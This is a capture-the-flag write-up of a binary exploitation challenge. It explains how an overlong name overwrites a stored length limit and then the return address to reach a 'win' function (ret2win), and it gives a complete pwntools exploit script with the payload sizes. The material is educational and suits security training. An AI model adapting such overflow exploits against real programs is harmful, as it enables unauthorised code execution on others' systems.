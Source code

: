 # Unpwnable Shop
## Challenge
This challenge lets us **insert our name** to access the shop. looking closely we can see that the **limit** of our input is positioned just after our name in the **stack** and also its initial value is 81! just enough to insert our name and **overwrite the limit** for later.
After inserting our name the program asks us what do we want to do, if we answer 69 we access a unique dialogue that makes us **re-input our name**, but this time the limit is whatever we inserted before, so if we send 88 bytes (76 for the username, 4 for the limit and 8 for the rbp), and the **address of the 'win' function** we successfully **overwrite** the return address and get the flag.

**Vulnerability**: [ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

## Solution
```py
#!/usr/bin/env python3
from pwn import remote, args,  process, ELF, p64, p32

if args.REMOTE:
    r = remote('localhost', 69420) #Change host and port
else:
    r = process("./pwn2")

elf = ELF("./pwn2")

# Overwriting limit
r.recvuntil(b':')
r.sendline(b'a' * 76 + p32(96))

# Sending right choice
r.recvuntil(b'stuff')
r.sendline(b'69')

#Overwriting return address
r.recvuntil(b'it.')
r.sendline(b'a'*88 + p64(elf.sym['win']))
r.recvuntil(b'Bye!\n')

#Flag!
print(r.recvline().decode())
```

## Author
**Author**: [`@Mark-74`](https://github.com/Mark-74/) <br>
**Date**: 2024-08-12 <br>
**Category**: Binary Exploitation
